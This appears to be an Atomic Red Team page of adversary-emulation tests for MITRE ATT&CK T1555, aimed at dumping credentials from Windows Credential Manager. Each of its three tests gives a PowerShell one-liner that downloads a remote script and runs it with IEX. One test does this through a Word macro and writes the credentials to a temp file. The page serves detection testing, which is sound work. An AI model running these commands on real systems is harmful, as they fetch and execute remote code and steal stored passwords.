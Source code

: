 # T1555 - Credentials from Password Stores
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555)
<blockquote>Adversaries may search for common password storage locations to obtain user credentials. Passwords are stored in several places on a system, depending on the operating system or application holding the credentials. There are also specific applications that store passwords to make it easier for users manage and maintain. Once credentials are obtained, they can be used to perform lateral movement and access restricted information.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Extract Windows Credential Manager via VBA](#atomic-test-1---extract-windows-credential-manager-via-vba)

- [Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]](#atomic-test-2---dump-credentials-from-windows-credential-manager-with-powershell-windows-credentials)

- [Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]](#atomic-test-3---dump-credentials-from-windows-credential-manager-with-powershell-web-credentials)


<br/>

## Atomic Test #1 - Extract Windows Credential Manager via VBA
This module will extract the credentials found within the Windows credential manager and dump
them to $env:TEMP\windows-credentials.txt

**Supported Platforms:** Windows


**auto_generated_guid:** 234f9b7c-b53d-4f32-897b-b880a6c9ea7b






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1555\src\T1555-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\windows-credentials.txt" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "word.Application" | Out-Null
  $process = "winword"
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]
This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows


**auto_generated_guid:** c89becbe-1758-4e7d-a0f4-97d2188a23e3






#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-PasswordVaultCredentials -Force
```






<br/>
<br/>

## Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]
This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows


**auto_generated_guid:** 8fd5a296-6772-4766-9991-ff4e92af7240






#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-CredManCreds -Force
```






<br/>
